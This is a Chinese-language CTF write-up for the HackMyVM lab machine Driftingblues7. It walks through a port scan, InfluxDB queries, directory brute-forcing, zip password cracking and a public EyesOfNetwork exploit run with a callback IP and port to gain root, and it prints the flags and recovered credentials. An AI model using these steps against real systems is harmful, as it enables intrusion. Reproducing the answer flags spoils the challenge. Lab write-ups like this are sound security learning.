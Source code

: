 # Driftingblues7

2024-11-16 https://hackmyvm.eu/machines/machine.php?vm=Driftingblues7

## IP

192.168.5.40

## Scan

```
PORT     STATE SERVICE
22/tcp   open  ssh
66/tcp   open  sqlnet
80/tcp   open  http
111/tcp  open  rpcbind
443/tcp  open  https
2403/tcp open  taskmaster2000
3306/tcp open  mysql
8086/tcp open  d-s-n
```

2403 nc 连接后没有反应，3306 不允许外联。

8086 是 InfluxDB 可以通过网页访问，使用 gobuster 进行扫描，可以执行 sql 语句：

```
http://192.168.5.40:8086/ping
http://192.168.5.40:8086/query
http://192.168.5.40:8086/status
```

```
# 查数据库
curl -G --data-urlencode 'q=show databases;' http://192.168.5.40:8086/query

{"results":[{"statement_id":0,"series":[{"name":"databases","columns":["name"],"values":[["nagflux"],["_internal"]]}]}]}

# 查表
curl --data-urlencode 'db=nagflux' --data-urlencode 'q=show measurements' http://192.168.5.40:8086/query

{"results":[{"statement_id":0,"series":[{"name":"measurements","columns":["name"],"values":[["messages"],["metrics"]]}]}]}

# 查列
curl --data-urlencode 'db=nagflux' --data-urlencode 'q=show field keys' http://192.168.5.40:8086/query

{"results":[{"statement_id":0,"series":[{"name":"messages","columns":["fieldKey","fieldType"],"values":[["message","string"]]},{"name":"metrics","columns":["fieldKey","fieldType"],"values":[["crit","float"],["max","float"],["min","float"],["value","float"],["warn","float"]]}]}]}
```

但是在这个数据库中没发现用户登陆需要的凭据信息。

66 端口是 python 搭建的 SimpleHTTPServer，先扫描下目录看看有什么信息：

```
gobuster dir -q -t 64 -e -k -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x php,txt,bak -u http://192.168.5.40:66/

http://192.168.5.40:66/.bash_history
http://192.168.5.40:66/.bashrc
http://192.168.5.40:66/index.htm
http://192.168.5.40:66/index_files
http://192.168.5.40:66/root.txt
http://192.168.5.40:66/user.txt
http://192.168.5.40:66/eno
```

直接获取到了 user flag : AED508ABE3D1D1303E1C1BC5F1C1BA2B , root flag: BD221F968ACB7E069FC7DDE713995C77 直接提交正确。

访问 http://192.168.5.40:66/eno 是一个 base64 编码的内容，然后将其解码是一个 zip 文件，zip 有密码，使用 john 进行破解发现密码为 killah , 解压后的内容为：

```
admin
isitreal31__
```

80 和 443 都对应的是 EyesOfNetwork 这个网站，但是需要用户名和密码才能登陆，使用上面得到的用户凭据进行登陆，成功。搜索是否可以通过该 web 执行命令进行反弹，在 searchsploit 中搜索到： php/webapps/48025.txt 将其改成 py 脚本，执行下面命令得到了 root 权限：

```
python3 48025.py https://192.168.5.40 -ip 192.168.5.3 -port 9999 -user admin -password 'isitreal31__'
```
